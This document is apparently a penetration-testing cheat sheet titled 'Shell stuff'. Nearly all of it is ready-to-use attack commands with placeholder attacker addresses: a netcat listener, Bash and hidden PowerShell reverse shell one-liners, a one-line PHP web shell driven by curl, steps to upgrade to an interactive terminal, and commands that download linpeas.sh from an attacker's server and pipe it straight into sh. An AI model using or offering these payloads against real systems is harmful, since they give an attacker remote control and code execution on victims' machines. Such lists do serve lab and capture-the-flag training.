 # Shell stuff

## Reverse Shell ([Online App](https://www.revshells.com))
- netcat
```
nc -lvnp 1234
```
Payloads:
- Bash (Linux)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MY IP} {PORT} >/tmp/f
```
- PowerShell (Windows)
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("{MY IP}",{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Web Shell 
- web browser/curl
```
curl http://{YOURWEBSITE}/payload.php?cmd={COMMANDS}
```
Payloads:
```
<?php system($_REQUEST["cmd"]); ?>
```

## Getting interactive shell:
- In netcat
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> press `Ctrl +Z`
```
stty raw -echo
fg
```
> press `Enter`

## Uploading files
- On your machine
```
python -m http.server 8000
```
- Download to target
```
wget YOUR_IP:8000/linpeas.sh -O linpeas.sh
```
- Download and execute
```
curl -L YOUR_IP:8000/linpeas.sh | sh
```

